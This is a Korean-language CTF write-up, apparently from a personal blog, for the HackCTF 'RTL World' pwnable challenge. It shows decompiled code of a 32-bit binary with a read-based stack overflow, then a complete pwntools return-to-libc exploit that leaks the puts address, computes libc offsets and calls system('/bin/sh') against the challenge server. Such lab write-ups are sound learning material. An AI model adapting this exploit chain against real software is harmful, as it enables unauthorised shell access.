 ```yaml
---
layout: post
title:  "HacCTF RTL World write-up"
date:   2020-01-08 19:45:55
image:  hackctfrtl.PNG
tags:   [Hackctf]
categories: [Write-up]
---
```


### 1.  문제

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_world/Untitled.png)

문제를 보면 굉장히 많은 문구의 내용들이 나온다. 차근차근 하나씩 입력하면서 무슨 기능을 하는 프로그램인지 확인하였다.

1번 메뉴를 누르면 현재 해당 파일에 적용되어 있는 보호기법들을 확인 할 수 있다

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      int result; // eax
      int v4; // [esp+0h] [ebp-A0h]
      int v5; // [esp+10h] [ebp-90h]
      char buf; // [esp+14h] [ebp-8Ch]
      void *v7; // [esp+94h] [ebp-Ch]
      void *handle; // [esp+98h] [ebp-8h]
      void *s1; // [esp+9Ch] [ebp-4h]
    
      setvbuf(stdout, 0, 2, 0);
      handle = dlopen("/lib/i386-linux-gnu/libc.so.6", 1);
      v7 = dlsym(handle, "system");
      dlclose(handle);
      for ( s1 = v7; memcmp(s1, "/bin/sh", 8u); s1 = (char *)s1 + 1 )
        ;
      puts("\n\nNPC [Village Presient] : ");
      puts("Binary Boss made our village fall into disuse...");
      puts("If you Have System Armor && Shell Sword.");
      puts("You can kill the Binary Boss...");
      puts("Help me Pwnable Hero... :(\n");
      printf("Your Gold : %d\n", gold);
      while ( 1 )
      {
        Menu(v4);
        printf(">>> ");
        __isoc99_scanf("%d", &v5);
        switch ( v5 )
        {
          case 0:
            continue;
          case 1:
            system("clear");
            puts("[Binary Boss]\n");
            puts("Arch:     i386-32-little");
            puts("RELRO:    Partial RELRO");
            puts("Stack:    No canary found");
            puts("NX:       NX enabled");
            puts("PIE:      No PIE (0x8048000)");
            puts("ASLR:  Enable");
            printf("Binary Boss live in %p\n", handle);
            puts("Binart Boss HP is 140 + Armor + 4\n");
            break;
          case 2:
            v4 = gold;
            Get_Money();
            break;
          case 3:
            if ( gold <= 1999 )
            {
              puts("You don't have gold... :(");
            }
            else
            {
              gold -= 1999;
              printf("System Armor : %p\n", v7);
            }
            break;
          case 4:
            if ( gold <= 2999 )
            {
              puts("You don't have gold... :(");
            }
            else
            {
              gold -= 2999;
              printf("Shell Sword : %p\n", s1);
            }
            break;
          case 5:
            printf("[Attack] > ");
            read(0, &buf, 0x400u);
            return 0;
          case 6:
            puts("Your Not Hero... Bye...");
            exit(0);
            return result;
        }
      }
    }

다음은 아이다로 확인한 코드이다.

전체적으로 switch case로 되어 있는데 결론적으로 case 5번안에 있는 read 함수를 이용하여 bof를 일으키는 문제이다

해당 파일은 NX비트가 걸려있지만 PIE가 안걸려 있으므로 yes_or_no 문제와 동일하게 풀면 될 것이다

### 2. 접근방법

일단 해당 문제는 32비트 환경이라는 것을 잊으면 안된다.

그렇다면, 다음의 순서로 접근을 하면 될 것 같다.

문제의 풀이 방법은 이전 문제와 완전 동일하기 때문에 자세하기 적지는 않겠다

1. puts **함수가 실행되기 위한 알맞은 입력값 찾기**
    - 여기서 주의할 것은 이전 문제는 64비트, 현재 문제는 32비트이므로 함수 인자 컨트롤이 다르다
        - 32비트 환경 RTL

            [RTL 기법 파헤치기](https://wogh8732.tistory.com/106?category=711515)

2. read함수로 라이브러리 주소 leak하기

3. 오프셋을 이용하여 system, /bin/sh 주소를 찾은 뒤 익스 

- 구한 값들을 이용해서 다음과 같이 페이로드를 작성하면 된다

    libc_base : 0xf7e01000
    puts : 0xf7e60ca0
    system : 0xf7e3bda0
    /bin/sh : 0xf7f5ca0b
    puts_offset(puts - libc_base) : 0x5fca0
    sys_offset(system - libc_base) : 0x3ada0
    bin_offset(/bin/sh - libc_base) : 0x15ba0b

    puts_addr - puts_offset = y_libc_base
    y_libc_base + sys_offset = system_addr
    y_libc_base + bin_offset = /bin/sh/_addr

    puts 주소 leak을 위한 입력값 :
    → ret(print plt) + 메인주소 + print got)

    익스를 위한 최종 입력값 :
    → ret(system) + 더미 + "/bin/sh"주소 

### 3. 풀이

최종 익스 코드는 다음과 같다

    from pwn import *
    #context.log_level = "debug"
    
    p=remote("ctf.j0n9hyun.xyz",3010)
    #p=process("./rtl_world")
    #gdb.attach(p)
    p.recvuntil(">>> ")
    
    p.sendline("5")
    
    p.recvuntil("[Attack] > ")
    
    
    #gatget
    puts_plt = p32(0x80485a0)
    puts_got = p32(0x804b01c)
    
    libc_base = 0x804b01c
    puts = 0x804b01c
    system = 0xf7e3bda0
    bin_sh = 0xf7e3bda0
    
    puts_offset = 0x5fca0
    sys_offset = 0x3ada0
    bin_offset = 0x15ba0b
    
    
    payload = "A"*144
    payload += puts_plt
    payload += p32(0x08048983)
    payload += puts_got
    
    p.sendline(payload)
    
    puts_addr = p.recv(4)
    log.info(puts_addr)
    puts_addr = u32(puts_addr)
    
    log.info("leak = "+hex(puts_addr))
    
    p.recvuntil(">>> ")
    
    p.sendline("5")
    
    p.recvuntil("[Attack] > ")
    
    y_libc_base = puts_addr - puts_offset 
    system_addr = y_libc_base + sys_offset 
    bin_sh_addr = y_libc_base + bin_offset
    
    payload = "A"*144
    payload += p32(system_addr) 
    payload +="BBBB"
    payload += p32(bin_sh_addr)
    
    p.sendline(payload)
    p.interactive()

### 4. 몰랐던 개념

몰랐던 개념은 없었다

이번 문제는 사실 이렇게 풀지 않아도, 메뉴 선택을 이용하여 system 함수와 /bin/sh 주소를 구하여 쉽게 익스를 할 수 있었다.

하지만 yes_or_no 문제를 풀면서 공부하고 이해했던 개념들을 복습하기 위해 이렇게 풀었다

하나 시행착오는 해당 문제는 18.04버전에서 진행했는데, remote가 아닌 process로 붙어서 진행했을때는 성공적으로 쉘이 떨어졌지만 remote로 진행했을때는 동작하지 않았다.

따라서 libc database online을 이용해서 leak한 puts 주소를 가지고 libc 버전을 확인하였는데

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_world/Untitled%201.png)

다음과 같이 해당 libc는 16버전으로 확인이 되었다

따라서 16.04 우분투환경으로 다시 오프셋을 구하여 코드를 작성하였고, 64비트 환경에서 32비트 elf 파일 실행을 위해 추가적으로 i3 머시기 패키지를 설치하여 실행하였다